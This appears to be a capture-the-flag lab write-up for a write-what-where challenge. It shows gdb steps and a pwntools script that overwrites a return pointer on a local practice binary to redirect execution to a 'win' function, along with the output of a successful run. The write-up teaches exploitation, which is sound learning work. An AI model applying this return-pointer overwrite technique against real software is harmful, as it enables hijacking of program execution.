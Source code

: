 # 09_www_ret Writeup

## Steps:
1. Run chall. This is very similar to 08 but the goal is to change the return pointer to a funciton `win`
```
$ ./chall 

Your goal is to modify the return pointer @ 0x7ffe2ca55728, to a function called 'win' in the binary.

This exercises is similar to the previous. You will notice a canary, but shouldn't have to worry about it!

0x7ffe2ca556f0: 0x0000000000000000 0x0000000000000000 
0x7ffe2ca55700: 0x0000000000000000 0x0000000000000000 
0x7ffe2ca55710: 0x0000000000000000 0x91c7c5ee1076f400 
0x7ffe2ca55720: 0x0000000000000001 0x00007fa1d9df0ca8 

What would you like to write? AAAA
Where would you like to write it? AAAA
zsh: segmentation fault  ./chall
```
2. Use gdb gef to identify the address of `win` with `info fun win`

```
0x0000000000401606  win
```

3. Write the payloads. This is almost exactly the same as 08 just different `what`.
   
   what -  `0x401606` converted to an `int` then `str`
   
   where - address in hex converted to an `int` then `str`
```
from pwn import *

target = process('./chall')

val = int("0x00401606", 16)
target.recvuntil(b"pointer @ ")
addr  = target.recvuntil(b",", False)[:-1]
addr = int(addr, 16)

target.sendline(str(val))
target.sendline(str(addr))

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 130911
/home/kali/Binex-Writeups/binex_tuts/09_www_ret/exploit.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(val))
/home/kali/Binex-Writeups/binex_tuts/09_www_ret/exploit.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(addr))
[+] Receiving all data: Done (874B)
[*] Process './chall' stopped with exit code 0 (pid 130911)
 to a function called 'win' in the binary.

This exercises is similar to the previous. You will notice a canary, but shouldn't have to worry about it!

0x7ffd722c2810: 0x0000000000000000 0x0000000000000000 
0x7ffd722c2820: 0x0000000000000000 0x0000000000000000 
0x7ffd722c2830: 0x0000000000000000 0x42e12434689ed600 
0x7ffd722c2840: 0x0000000000000001 0x00007fa2b828dca8 

What would you like to write? Where would you like to write it? 
0x7ffd722c2810: 0x3135363237303431 0x0a30363939343938 
0x7ffd722c2820: 0x0000000000000000 0x0000000000000000 
0x7ffd722c2830: 0x0000000000000000 0x42e12434689ed600 
0x7ffd722c2840: 0x0000000000000001 0x0000000000401606 

Congrats, you successuly changed execution flow!
```

